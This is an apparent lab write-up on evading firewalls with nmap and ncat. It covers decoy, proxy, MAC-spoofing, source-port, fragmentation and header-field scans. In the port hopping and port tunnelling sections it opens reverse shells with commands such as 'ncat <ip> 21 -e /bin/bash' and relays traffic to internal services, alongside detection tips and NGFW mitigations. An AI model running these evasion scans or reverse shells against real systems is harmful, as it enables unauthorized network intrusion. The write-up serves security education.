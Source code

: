 # Firewall Evasion

A firewall is software or hardware that monitors the network traffic and compares it against a set of rules before passing or blocking it. One simple analogy is a guard or gatekeeper at the entrance of an event. This gatekeeper can check the ID of individuals against a list of allowed individuals before letting them enter (or leave).

![Pasted image 20240920140126](https://github.com/user-attachments/assets/e35edcc5-908a-4162-a05a-39b6ef3b888c)

Different types of firewalls are capable of inspecting various packet fields; however, the most basic firewall should be able to inspect at least the following fields:

+ Protocol
+ Source Address
+ Destination Address

Depending on the protocol field, the data in the IP datagram can be one of many options. Three common protocols are:

+ TCP
+ UDP
+ ICMP

![Pasted image 20240920140306](https://github.com/user-attachments/assets/d3494f55-000e-4af1-aec2-5cfb24f0853c)

In the case of TCP or UDP, the firewall should at least be able to check the TCP and UDP headers for:

+ Source Port Number
+ Destination Port Number

![Pasted image 20240920140426](https://github.com/user-attachments/assets/08e838e9-c9da-4da6-ab47-031de5b174e9)

In traditional firewalls (packet-filtering firewalls), everything is allowed and blocked mainly based on the following:

+ Protocol, such as TCP, UDP, and ICMP
+ IP source address
+ IP destination address
+ Source TCP or UDP port number
+ Destination TCP or UDP port number

### Scope:

While firewalls are crucial for network security and provide significant protection, they aren’t foolproof.In this exercise, I will go over several ways to evade a firewall. I will cover the following:

<details>
<summary><h3>Incomplete TCP Handshake<h3></summary>

The 3-way handshake is the process used to establish a TCP connection between a client and a server. It involves three steps: SYN, SYN-ACK, and ACK.  A half-open connection occurs when a connection is initiated but not fully established. 

![Pasted image 20240920150311](https://github.com/user-attachments/assets/76b0924e-ad3f-41be-91aa-b4c4a39b71e4)

Here I will be utilizing nmap to send half open connections to my target IP 10.10.100.39 (Windows Firewall):

```
nmap  -sS -F 10.10.100.39 -nnvvv
```

Based on the output of the scan, I was able to identify that TCP port 5357 was open associated with the service WSDAPI:

![Pasted image 20240920145403](https://github.com/user-attachments/assets/619458cd-ce8c-4d8d-b26f-209566273074)

Looking at the nmap scan traffic in Wireshark, I was able to see the behavior of the scan in real time:

![Pasted image 20240920145126](https://github.com/user-attachments/assets/33b349ad-f2df-4051-987b-edcf71e98661)

Here I can see that IP address 10.10.100.104 has generated and sent around 200 packets. The -F option in the command limits the scan to the top 100 common ports; moreover, each port is sent a second SYN packet if it does not reply to the first one. The source port number is chosen at random but is fixed. In the screenshot, you can see it is 63871

The total length of the IP packet is 44 bytes. There are 20 bytes for the IP header, which leaves 24 bytes for the TCP header. No data is sent via TCP.

Other factors observed in the traffic:

+ The Time to Live (TTL) is is changing in each packet.
+ The IP identification is changing is each packet
+ No errors are introduced in the checksum.

In this scenario, nmap sends a SYN request to the target, if the port is open, the target responds with a SYN-ACK packet, acknowledging the request to establish a connection. Normally, in a ligitimate request, the scanner would then complete the request with an ACK to complete the handshake. In this case, the target host has already shown which port is open. If nmap were to complete the connection, it would then have to worry about closing it. Instead of sending an ACK back to complete the handshake, the scanner sends an RST packet to close the connection prematurely.

In the screenshot below, we see the bahavior describe above for port 5357 which was previously identified:

![Pasted image 20240920150341](https://github.com/user-attachments/assets/eafc0b47-59aa-4925-8289-8439f6a8068c)

Nmap will classify a port as filtered if it receives specific ICMP error messages in response as seen in the screenshot below:

![Pasted image 20240920150957](https://github.com/user-attachments/assets/e1765030-7234-439f-a99f-399779d2af0c)

> [!NOTE]  
> Below is a summary of how nmap will interpret responses to a SYN probe:
> ![Pasted image 20240920151122](https://github.com/user-attachments/assets/744cf0e9-d6d7-4618-b3b3-1215258f27e0)

</details>

<details>
<summary><h3>Evasion via Decoy Scan<h3></summary>

You can conceal the scan using decoys. In an Nmap decoy scan, multiple decoy IP addresses are used alongside the real IP address to obfuscate the source of the scan. This makes it challenging for both the firewall and the target host to identify the origin of the port scan. 

Here I will use the following command with the decoy option to "hide" my real IP address:

```
nmap -sS -Pn -D 192.168.91.10,192.168.91.15,192.168.91.128 -F 192.168.91.130
```

After initiating the scan, I can see that it completes and that the target has a number of open ports:

![Pasted image 20240921123114](https://github.com/user-attachments/assets/42da0b3f-e28f-4619-992f-be24308e6307)

While looking at the Wireshark capture of the scan, I can see the expected behavior. Here we see that all 3 of the IP addresses in the command are reaching out with a SYN request to the host:

![Pasted image 20240921123403](https://github.com/user-attachments/assets/5550db8d-d32b-4240-b9f6-2ac22cae96d7)

However, one thing that we can note from the traffic above, although there are 3 different IP addresses sending SYN requests, only 1 sends the RST (the real IP). 

Another example of this is by setting Nmap to use random source IP addresses instead of explicitly specifying them:

```
map -sS -Pn -D RND,RND,192.168.91.128 -F 192.168.91.130
```

![Pasted image 20240921124912](https://github.com/user-attachments/assets/551b29ec-e9be-40a0-ac69-6fec116d136f)

### Finding the real IP behind the Decoy scan:

As noted earlier, only the real IP is linked to the RST packet. Another method for identifying the true source is that the target will send RST packets exclusively to this real IP address:

![Pasted image 20240921123604](https://github.com/user-attachments/assets/e07821b9-850d-4918-9447-6687f2277828)

When the target responds to the initial SYN requests, it may send back ACK packets if the port is open, but these responses will only reach the actual source IP. 

![Pasted image 20240921124326](https://github.com/user-attachments/assets/5a732df1-4476-46ac-a1a4-1ac630870b3d)

Here is a view of this behavior wiht a sinfle IP:

![Pasted image 20240921124444](https://github.com/user-attachments/assets/4ad665af-995a-4935-9834-185bec36878f)

### Summary:

Firewalls often look for unusual patterns of activity. A decoy scan can generate a seemingly normal level of traffic from various sources, making it less likely for the real scan to be flagged as suspicious.

In some cases, decoy scans can utilize IP spoofing techniques to make the decoy addresses appear legitimate, further complicating the firewall's ability to identify the real source.

</details>

<details>
<summary><h3>Evasion via HTTP Proxy<h3></summary>

For this scenario I set up a Netcat HTTP Proxy for NMAP:

![Pasted image 20240922143053](https://github.com/user-attachments/assets/c6d5437f-9d25-45f6-b235-d8b7dd290ad4)

I set it up and had it configured to listen on port 8081:

```
ncat -vv --listen 8081 --proxy-type http
```

![Pasted image 20240921201927](https://github.com/user-attachments/assets/9072c443-7501-4949-a0fc-cb8dd0ce8b06)

Verified that it was indeed listening:

![Pasted image 20240921201907](https://github.com/user-attachments/assets/297099b9-ed7a-4112-9ee0-b6a81f3b8975)

Next I performed a TCP Connect Scan (-sT):

A TCP Connect Scan is similar to that of a SYN scan. However, instead of aborting the half-open connection with a RST packet, it attempts to establish a full TCP connection with each port on the target machine. After the connection is successful, the scanner wil terminates the connection immediately with a RST packet. Below is a image to represent tis behavior:

<img width="717" alt="Screenshot 2024-10-25 at 8 59 04 PM" src="https://github.com/user-attachments/assets/27ebb0e2-af9c-4930-be8f-7f762b63bf94">

>#### Note: To use the --proxies option with Nmap, you need to include at least two scan techniques, such as -sT, -A, -sC, or -sV. Otherwise, Nmap will not be able to route the traffic through the proxy.

```
nmap  -sC -sV -Pn -p80  --proxies http://192.168.91.131:8081 192.168.91.130 --packet-trace -nnvvvv
```

![Pasted image 20240921204322](https://github.com/user-attachments/assets/62e12b62-9912-43bf-a773-2afd073c998e)

Traffic from the local nmap scanner:

![Pasted image 20240921204246](https://github.com/user-attachments/assets/e0e3f004-497a-4744-9a02-1b9fc9d74cf1)

I also used the `--packet-trace` option to information about the state of the connection:
 
![Pasted image 20240921211331](https://github.com/user-attachments/assets/3237440f-55fc-4d97-be9c-437237eb8eca)

Here I can see information on the target host such as open ports and running services:

![Pasted image 20240921211420](https://github.com/user-attachments/assets/a08cf613-21f6-4859-9304-d9cf94846c15)

### Detecting Scans via Proxy Servers:

Although there isn't a 100% reliable way to achieve this, there are indicators that can be seen in the headers that when present, can suggest that the request was routed from a proxy server:

+ via
+ forwarded
+ x-forwarded-for
+ client-ip: 

In trying to see how the traffic looks on the receiving end, I went to check the Wireshark traffic on the IIS (target) server: 

![Pasted image 20240921203356](https://github.com/user-attachments/assets/21462aab-9c7d-4186-97dc-a3a7c513aca9)

The CONNECT method is an HTTP request method used primarily to establish a tunnel to a server through an HTTP proxy. Taking a closer look into the traffic, I was able to see that here:

![Pasted image 20240921203332](https://github.com/user-attachments/assets/bb730138-3adf-44cf-ba54-ee4595caab34)

![Pasted image 20240921205656](https://github.com/user-attachments/assets/f58f190f-ec6f-455a-ab4f-2384592fcbc0)

### Summary:

In this exercise, I was successfully able to scan node 192.168.91.130 and detect it's operating system (Windows) and the service running (IIS Web Server) via a proxy sever using Nmap.

</details>

<details>
<summary><h3>Evasion via Mac Spoofing<h3></summary>

![Pasted image 20240922170340](https://github.com/user-attachments/assets/56585a8a-ff25-44c5-9cc5-52c07312abb5)

MAC spoofing is a technique often used by attackers to change the MAC address of their device to match that of another device on the network. This vulnerability allows them to evade security measures like MAC filtering and MAC-based access controls. Mac Spoofing can circumvent MAC filtering, allowing them to gain unauthorized access to the network by pretending to be a trusted device.

Below is a look at the frame and where both the destination and source MAC addresses can be found:

![Pasted image 20240921231109](https://github.com/user-attachments/assets/700bb0b7-b9d9-4682-98f3-ed9d2d3c7c5b)

Nmap allows you to spoof your MAC address using the option `--spoof-mac MAC_ADDRESS`. However, there are limitations. Spoofing works effectively only if your system is on the same network segment as the target host. If you are on a different network segment the target system will not receive your packets. Spoofing your MAC address to match a trusted device can potentially allow you to exploit vulnerabilities or gain unauthorized access.

In the exercise, I used the command below:

```
nmap -sS -Pn -p80 --spoof-mac deadbeef 192.168.91.130 --packet-trace --disable-arp-ping -nnvv
```

By using this command, I can see that my MAC address now includes `deadbeef`:

![Pasted image 20240921230527](https://github.com/user-attachments/assets/facb1002-5280-4bd5-89b5-732824af73ce)

In the Wireshark capture, I was also able to confirm that the MAC address had changed:

![Pasted image 20240921230718](https://github.com/user-attachments/assets/a251a877-a9e8-4e85-ab34-90d28bc730be)

### Warning Signs/Detection of MAC Spoofing Attacks:

Below is an example of how MAC spoofing looks in the network traffic. Here I analyzed traffic between the same 2 IP addresses, however, in the highlighted piece we can see that the MAC address changes:

![Pasted image 20240922171738](https://github.com/user-attachments/assets/bb17da92-de21-4b55-b473-710b8a522097)

Here are various red flags that may point to a MAC spoofing attack on a network. Some of these warnings include:

+ Duplicate MAC addresses
+ Unknown MAC addresses
+ Unusual ARP Activity
+ Unexpected network failures 

</details>

<details>
<summary><h3>Evasion via Fixed Port Number<h3></summary>

Scanning from a specific source port can be advantageous if you find that firewalls permit incoming packets from certain ports, such as 53 or 80. This strategy can help you navigate around firewall restrictions more effectively. 

### Firewall Rule

To get started, I created a firewall rule to allow traffic on the IIS server from a specific source port. To do this, I navigated to the Windows host and created a new firewall rule:

![Pasted image 20240922150229](https://github.com/user-attachments/assets/4613d30d-882b-471d-a75f-103032a94dbc)

![Pasted image 20240922150315](https://github.com/user-attachments/assets/4a644684-06b5-457b-999d-4b53d3fa4cab)

I then configured the rule do that the only allow traffic from specific source ports (8000 and 9999):

![Pasted image 20240922150726](https://github.com/user-attachments/assets/ba81035e-031a-48ea-a96d-d556854be2fa)

This rule will apply to all IPs:

![Pasted image 20240922150815](https://github.com/user-attachments/assets/5251819b-ec88-428d-9c58-631921b48f5d)

Allowed the connection:

![Pasted image 20240922150902](https://github.com/user-attachments/assets/7077eb7d-95b7-4ec6-8fc5-4ad6d1e62051)

![Pasted image 20240922150941](https://github.com/user-attachments/assets/eb58b0f1-ca6e-485d-9203-16436dcde6a1)

Named the rule:

![Pasted image 20240922151127](https://github.com/user-attachments/assets/4a39870e-4087-449e-8325-d1aa9ca6fab4)

I then confirmed the rule was in place:

![Pasted image 20240922151204](https://github.com/user-attachments/assets/fd9dee17-0ad4-437a-a9cf-cb566d716d9a)

### Testing

Now that the rule is configured, I tested against the firewall rule with Nmap:

```
nmap -sS -Pn -p80 192.168.91.130 --packet-trace --disable-arp-ping -nnvvvv
```

![Pasted image 20240922151449](https://github.com/user-attachments/assets/c861c976-65e3-4dba-978e-793537d0725f)

Based on the output from the scan, the port is showing as filtered since the traffic will be only allowed if its coming from a specific port number. I then ran another scan but, this time specifying a source port using the option `--source-port`:

```
nmap -sS -Pn --source-port 9999 -p80 192.168.91.130 --packet-trace --disable-arp-ping -nnvvvv
```

![Pasted image 20240922151741](https://github.com/user-attachments/assets/ce251585-a9d1-4647-8de4-979c3d04fe0e)

Based on the output, I can now see that the port is showing as open. 

</details>

<details>
<summary><h3>Evasion via Fragmentation, MTU, and Data Length<h3></summary>


Another way that you can evade a firewall is by controlling the packet size. By fragmenting packets, if neither the firewall nor the IDS/IPS reassemble the packet, it will most likely let it pass. This will make it so taht the target system will reassemble and process it.

### Fragmenting (8 Bytes)

One easy way to fragment your packets would be to use the -f option. This option will fragment the IP packet to carry only 8 bytes of data. Normally, the IP packets sent during a Nmap TCP port scan will hold 24 bytes, the TCP header. By limiting the IP data to 8 bytes, the 24 bytes of the TCP header will be divided across 3 IP packets.

```
nmap -sS -Pn -f 8  -p80 192.168.91.130 --packet-trace --disable-arp-ping -nnvvvv
```

![Pasted image 20240922154916](https://github.com/user-attachments/assets/e602a2d0-1c0d-40d1-b10e-972ce0b07f29)

Taking a look at Wireshrark and the traffic generated by the scan, I was able to confirm the behavior and the see the fragmentation:

![Pasted image 20240922154837](https://github.com/user-attachments/assets/ced0ab71-ca8e-4a3b-b29e-0190b8d74831)

### Fragmenting (16 Bytes):

Another option is using `-ff` which limits the IP data to 16 bytes. By running the following command `nmap -sS -Pn -ff -F MACHINE_IP`, the expectation is that the 24 bytes of the TCP header will be divided between two packets because `-ff` sets a maximum limit of 16 bytes.

```
nmap -sS -Pn -ff -p80 192.168.91.130 --packet-trace --disable-arp-ping -nnvvvv
```

![Pasted image 20240922155423](https://github.com/user-attachments/assets/5a09bce4-0f82-4c20-aeb9-a6343c80711a)

After running the scan, I could see the fragmentation and confirmed the size of 16 Bytes:

![Pasted image 20240922155525](https://github.com/user-attachments/assets/37d481e7-0850-4bfe-84cc-4c8f86045e7f)

### Fragmenting MTU:

Another effective way to fragment packets is by adjusting the MTU. In Nmap, the --mtu VALUE option specifies the number of bytes per IP packet, excluding the IP header size. The MTU value must always be a multiple of 8. It's important to know that MTU refers to the largest packet size that can be transmitted over a specific link-layer connection. Ethernet has an MTU of 1500 and is to not be confused with the `--mtu` option in nmap. 

Running Nmap with the option `--mtu 8` will be identical to using option `-f ` since in both the IP data will be limited to 8 bytes.

```
nmap -sS -Pn -mtu 8 -p80 192.168.91.130 --packet-trace --disable-arp-ping -nnvvvv
```

![Pasted image 20240922155925](https://github.com/user-attachments/assets/741d5d85-2b87-415b-86a7-df01388ce58f)

In Wireshark, I confirmed that the the packets were indeed fragmented, 8 bytes in size, and had the more fragments bit set:

![Pasted image 20240922155907](https://github.com/user-attachments/assets/e15a7300-4130-4730-b6b1-b895178bfb02)

### Packets with Specific Length:

There may be times where the firewall or IDS/IPS is able to detect and block your activities based on the size of the packets being sent. You can enhance the stealth of your port scanning by specifying a particular data length. Nmap allows you to set the length of the data carried within the IP packet using `--data-length VALUE`, the length should be a multiple of 8. As an example, I will be using a length of 64:

```
nmap -sS -Pn --data-length 64  -p80 192.168.91.130 --packet-trace --disable-arp-ping -nnvvvv
```

![Pasted image 20240922162841](https://github.com/user-attachments/assets/a92f7c89-c3da-4a1c-afe0-9b31b6aafd85)

I was also able to verify that the behavior wasjust as expected in Wireshark:

![Pasted image 20240922162745](https://github.com/user-attachments/assets/e1d6f488-5de0-4f26-83bb-c7eb6bdc7007)

</details>

<details>
<summary><h3>Evasion via Bad Checksum<h3></summary>

###  Wrong Checksum:

Another method that can be used to evade a firewall is to intentionally send a packet with a bad checksum. There are systems that will drop a packet with a bad checksum, however, there are others that won’t. To do this, nmap has the option `--badsum`:

```
nmap -sS -Pn --badsum -p80,3389 192.168.91.130 -nnvvv --packet-trace
```

![Pasted image 20240923113056](https://github.com/user-attachments/assets/ef80ed72-d799-4e50-ab27-0dc743ad0710)

Based on the output, we can see the that ports (80 and 3389) are being filtered. Overall, the results will depend significantly on the security measures in place on the target system and the nature of the network traffic. Monitoring the responses and comparing them to typical behavior can provide valuable insights into the security posture of the target environment. 

</details>

<details>
<summary><h3>Evasion via Modifying Header Fields<h3></summary>

Nmap allows you to control various header fields that might help evade the firewall. You can:

+ You can set the TTL value with the `--ttl` option.
+ Send packets with specified IP options:
+ Use `--badsum` to send packets with incorrect TCP/UDP checksums.

I will go over TTL and IP options below:

### Set TTL :

The `--ttl` option in Nmap autellows you to specify TTL value for the packets sent during a scan. TTL is a field in the IP header that specifies the maximum number of hops a packet can take before it is discarded. Each router that forwards the packet decrements the TTL value by one. This option might be useful if you think the default TTL exposes your port scan activities.

```
nmap -sS -Pn --ttl 1 -p80,3389 192.168.91.130 -nnvvv --packet-trace
```

![Pasted image 20240923105624](https://github.com/user-attachments/assets/75d7f9ea-d3be-4ad6-8124-e8186a6143eb)

Based on the output above, I was able to see the open ports. 

![Pasted image 20240923105749](https://github.com/user-attachments/assets/fa10c75f-ab9b-4554-a4f8-cb24a9945cd9)

Viewing the traffic in Wireshark, I was able to confirm the TTL behavior. In this case, the TTLS is showing 1 as specified in the command above. 

### Set IP Options:

The IP Options field is a flexible part of the IP header that allows for additional features or instructions to be specified for packet processing. Nmap lets you customize the IP Options field using the `--ip-options HEX_STRING` option. The 'HEX_STRING` option defines the exact bytes that will populate the IP Options field. Each byte is expressed in hexadecimal format, where HH represents two hexadecimal digits. For example, the byte 0x1A would be written as \x1A.

A shortcut provided by Nmap is using the letters to make your requests:

+ R to record-route.
+ T to record-timestamp.
+ U to record-route and record-timestamp.
+ L for loose source routing and needs to be followed by a list of IP addresses separated by space.
+ S for strict source routing and needs to be followed by a list of IP addresses separated by space.

The Record Route option is one of the IP options that can be specified in the IP header. It allows the sender to keep track of the route taken by the packet through the network, recording the IP addresses of the routers that forward the packet. It can be helpful if you want to try to make your packets take a particular route to avoid a specific security system.

Here I used this option:

```
nmap -sS -Pn --ip-options R -p80,3389 192.168.91.130 -nnvvv --packet-trace
```

![Pasted image 20240923112809](https://github.com/user-attachments/assets/e571ab7e-9fc4-40ff-a835-65a46e6b3690)

Below are is the scan related traffic where I was able to see that it did have the IP option R available:

![Pasted image 20240923112706](https://github.com/user-attachments/assets/61da2c44-109c-4251-92cb-2f5bb7a1814a)

</details>

<details>
<summary><h3>Evasion Using Port Hopping<h3></summary>

There are three common firewall evasion techniques, they are:

+ Port hopping
+ Port tunneling
+ Use of non-standard ports

Port hopping is a technique where a system rapidly switches between different network ports for communication. This can serve various purposes, including enhancing security, evading detection, or optimizing network performance. Port hopping can be used to avoid detection by rapidly changing ports, which in turn can reduce the likelihood of being identified.

In the diagram below, the client tries different ports to reach the server until it discovers a destination port that is not being blocked by the firewall.

![Pasted image 20240924211328](https://github.com/user-attachments/assets/ce0ff043-9721-4957-8f62-aadef3175248)

### Getting Started

First I need to set up a listening port on the client:

+ -l listens for incoming connections
+ -v provides verbose details (optional)
+ -n does not resolve hostnames via DNS (optional)
+ -p specifies the port number to use

```
ncat -lvnp 21
```

![Pasted image 20240924133907](https://github.com/user-attachments/assets/eff7886b-ecbc-4170-a582-4ef72377c726)

Based on the output, it is now listening on port 21. 

### Connecting to the server:

Next, I performed a network trace from the client reaching the server on port 8080:

![Pasted image 20240924134217](https://github.com/user-attachments/assets/0039045a-ae64-4763-90f1-6262db7c7184)

In this scenario, I'm going to be exploiting a vulnerable service that allows remote code execution (RCE) or a misconfiguration on the web application running on port 8080 and will be able to execute code or command of my choice.

```
ncat 10.10.142.3 21 -c /bin/bash
```

![Pasted image 20240924134503](https://github.com/user-attachments/assets/77561853-f084-400a-8585-8f77461eb83f)

The command was executed successfully. I was able to the HTTP POST and ACK coming from the server:

![Pasted image 20240924134217](https://github.com/user-attachments/assets/e733f554-52c1-48a3-830f-9088e3e7b3c8)

Detailed information about the HTTP POST:

![Pasted image 20240924134054](https://github.com/user-attachments/assets/e2ab77dd-b3bd-4309-82a7-803c2397e8cb)

### Detecting a reverse shell from the server:

Using the command below will display all established connections, and the the associated process or program. By filtering for established connections, it focuses on active connections:

```
netstat -anp | grep ESTABLISHED 
```

Here I was able to see the network traffic coming from the server:

![Pasted image 20240924134356](https://github.com/user-attachments/assets/3f0787b6-3a76-47a4-9c85-cf34ded5b536)

Based on the traffic, I can see that the server's firewall is allowing port 21 outbound.  

</details>

<details>
<summary><h3>Evasion Using Port Tunnelling<h3></summary>

Port tunneling involves wrapping data from one protocol within another protocol. This can be used to send traffic over a network that might otherwise block or filter the original protocol.

The diagram below is an example:

![Pasted image 20240924211930](https://github.com/user-attachments/assets/b0c7257e-5a3b-4578-89b0-cac9c37b705f)

### Getting started

I began by using ncat to create listening port 21 on the client:

```
ncat -lvnp 21
```

![Pasted image 20240924153722](https://github.com/user-attachments/assets/0a86dada-cfa9-4f16-8e46-4fef33e8a5e7)

Next, I tried accessing the web server and passing the Netcat command to spawn a reverse shell:

```
ncat 10.10.25.138  21 -e /bin/bash
```

![Pasted image 20240924160925](https://github.com/user-attachments/assets/3ae5affe-ea8f-435c-a0a1-ca5806c718c1)

After, I was able to list and view available services/ports that are opened:

![Pasted image 20240924160848](https://github.com/user-attachments/assets/3dbd9dc5-ac4a-488a-9ccf-f5efdd619848)

Looking at Wireshark, the client can't reach the server over the network on port 80 or 8008.

![Pasted image 20240924163354](https://github.com/user-attachments/assets/de869533-6b2f-47bf-a04d-5cd4c9cdd962)

Since I'm connected to the server via a reverse shell, I can open the local webserver running on port 80:

```
ncat -lvnp 8008 -c "ncat 10.10.90.19 80"
```

![Pasted image 20240924163735](https://github.com/user-attachments/assets/be94001b-b074-49f1-9359-c598cf6e7f4b)

Now I'm able to reach the server on port 8008 , I can se some 200 codes coming from the web app:

![Pasted image 20240924163942](https://github.com/user-attachments/assets/ecb4a1ec-ea2f-47af-aee7-419875cccee0)

Details on the 200 OK code:

![Pasted image 20240924164127](https://github.com/user-attachments/assets/05f29650-4685-4631-aba3-9e379795630d)

The connection state at the web server indicates that the ports are bound.

![Pasted image 20240924164556](https://github.com/user-attachments/assets/a34ec769-abaa-4668-b082-276333c3b4bb)

</details>

<details>
<summary><h3>Evasion via Non-Standard Port<h3></summary>

Creating a backdoor via the specified port number that lets you interact with the Bash shell.

-e or --exec executes the given command

/bin/bash location of the command we want to execute

Considering the case that we have a firewall, it is not enough to use ncat to create a backdoor unless we can connect to the listening port number. Moreover, unless we run ncat as a privileged user, root, or using sudo, we cannot use port numbers below 1024.

</details>

## Mitigations:

Next-Generation Firewall (NGFW:

Traditional firewalls, such as packet-filtering firewalls, expect a port number to dictate the protocol being used and identify the application. Consequently, if you want to block an application, you need to block a port. Unfortunately, this is no longer valid as many applications camouflage themselves using ports assigned for other applications. 


![Pasted image 20240924210345](https://github.com/user-attachments/assets/fcdd09d7-b8dc-4efd-813a-74e6b9305aa9)



In other words, a port number is no longer enough nor reliable to identify the application being used. Add to this the pervasive use of encryption, for example, via SSL/TLS.


![Pasted image 20240924210137](https://github.com/user-attachments/assets/356b1515-1882-496a-9da8-27e824e290fa)

Next-Generation Firewall (NGFW) is designed to handle the new challenges facing modern enterprises. For instance, some of NGFW capabilities include:

Integrate a firewall and a real-time Intrusion Prevention System (IPS). It can stop any detected threat in real-time.

Identify users and their traffic. It can enforce the security policy per-user or per-group basis.

Identify the applications and protocols regardless of the port number being used.

Identify the content being transmitted. It can enforce the security policy in case any violating content is detected.

Ability to decrypt SSL/TLS and SSH traffic. For instance, it restricts evasive techniques built around encryption to transfer malicious files.

A properly configured and deployed NGFW renders many attacks useless.








